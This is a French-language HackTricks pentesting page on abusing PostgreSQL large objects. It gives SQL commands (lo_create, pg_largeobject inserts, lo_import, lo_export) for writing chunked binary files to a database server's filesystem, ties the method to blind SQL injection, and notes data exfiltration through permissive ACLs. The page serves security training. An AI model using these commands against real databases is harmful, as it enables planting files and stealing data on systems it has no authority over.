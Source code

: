 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Objets volumineux PostgreSQL

PostgreSQL offre une structure connue sous le nom de **grands objets**, accessible via la table `pg_largeobject`, conçue pour stocker de grands types de données, tels que des images ou des documents PDF. Cette approche est avantageuse par rapport à la fonction `COPY TO` car elle permet l'**exportation de données vers le système de fichiers**, garantissant qu'une réplique exacte du fichier original est maintenue.

Pour **stocker un fichier complet** dans cette table, un objet doit être créé dans la table `pg_largeobject` (identifié par un LOID), suivi de l'insertion de morceaux de données, chacun de 2 Ko, dans cet objet. Il est crucial que ces morceaux soient exactement de 2 Ko (à l'exception possible du dernier morceau) pour garantir que la fonction d'exportation fonctionne correctement.

Pour **diviser vos données binaires** en morceaux de 2 Ko, les commandes suivantes peuvent être exécutées :
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Pour encoder chaque fichier en Base64 ou Hex, les commandes ci-dessous peuvent être utilisées :
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Important**: Lors de l'automatisation de ce processus, assurez-vous d'envoyer des morceaux de 2 Ko de bytes en texte clair. Les fichiers encodés en hex nécessiteront 4 Ko de données par morceau en raison du doublement de taille, tandis que les fichiers encodés en Base64 suivent la formule `ceil(n / 3) * 4`.

Le contenu des objets volumineux peut être consulté à des fins de débogage en utilisant :
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Utilisation de `lo_creat` & Base64

Pour stocker des données binaires, un LOID est d'abord créé :
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Dans des situations nécessitant un contrôle précis, comme l'exploitation d'une injection SQL aveugle, `lo_create` est préféré pour spécifier un LOID fixe.

Les morceaux de données peuvent ensuite être insérés comme suit :
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Pour exporter et potentiellement supprimer l'objet volumineux après utilisation :
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Utilisation de `lo_import` & Hex

La fonction `lo_import` peut être utilisée pour créer et spécifier un LOID pour un objet volumineux :
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Après la création de l'objet, les données sont insérées par page, garantissant que chaque morceau ne dépasse pas 2 Ko :
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Pour compléter le processus, les données sont exportées et l'objet volumineux est supprimé :
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

Il est noté que **les objets volumineux peuvent avoir des ACL** (Listes de Contrôle d'Accès), restreignant potentiellement l'accès même aux objets créés par votre utilisateur. Cependant, les objets plus anciens avec des ACL permissives peuvent encore être accessibles pour l'exfiltration de contenu.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
